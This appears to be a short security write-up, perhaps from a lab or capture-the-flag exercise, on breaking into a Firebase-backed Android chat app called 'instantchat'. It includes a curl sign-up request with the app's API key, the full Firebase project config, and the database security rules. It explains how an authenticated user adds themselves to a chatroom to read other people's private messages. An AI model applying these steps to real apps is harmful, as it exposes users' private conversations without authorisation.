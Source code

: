 Assuming reverse engineered the application, obtained the firebase config and noticed the collection structure by observing the decompiled code

Sign up yourself with the API key by refering to 

https://cloud.google.com/identity-platform/docs/reference/rest/v1/accounts/signUp

OR

![eaa60e202d0f8b9bf236776cd5166425.png](../../_resources/eaa60e202d0f8b9bf236776cd5166425.png)

```
curl --request POST \
  --header "Content-Type: application/json" \
  --data '{"email": "user@example.com", "password": "myverysecurepassword"}' \
  "https://identitytoolkit.googleapis.com/v1/accounts:signUp?key=AIzaSyAS4ptyTHqvFh0tviMbWV9gzIr7bMo0eCY"
```

There are 3 collection

```
messages
users
chatrooms
```

by reverse engineering the APK and you can test access control manually. I used https://github.com/iosiro/baserunner

The following is the firebase security rule. Should share this rule? However, the vulnerability is quite easy to spot.

```
{
  "rules": {
    ".write": false,
    ".read" : false,
    "users" : {
      ".read" : "auth != null",
      ".write" : "auth != null",
    },
    "chatrooms" : {
      ".read" : "auth != null",
      ".write" : "auth != null",
    },
    "messages" : {
      "$messageid" : {
        ".read" : "root.child('chatrooms').child($messageid).child('chatroom').child('participants').child(auth.uid).exists()",
        "$timestamp":{
          ".write" : "!data.exists() || !newData.exists() && auth != null",
        }
      }
    }
  }
}
```

You will see only message has some sort of access control enforced.

Use this config

```
{
  "apiKey": "AIzaSyAS4ptyTHqvFh0tviMbWV9gzIr7bMo0eCY",
  "authDomain": "instantchat-66091-default-rtdb.firebaseio.com",
  "databaseURL": "https://instantchat-66091-default-rtdb.firebaseio.com",
  "projectId": "instantchat-66091",
  "storageBucket": "instantchat-66091.appspot.com",
  "appId": "1:204796949431:android:8b3f79c75f2559c452ee32"
}
```

Add yourself to the participant of the chatroom as such

![43c5a6fadaa0ceae8e0aa8d7c3df8649.png](../../_resources/43c5a6fadaa0ceae8e0aa8d7c3df8649.png)

Read the chatroom as such

![a95457ec96932e58c665c2a07df21636.png](../../_resources/a95457ec96932e58c665c2a07df21636.png)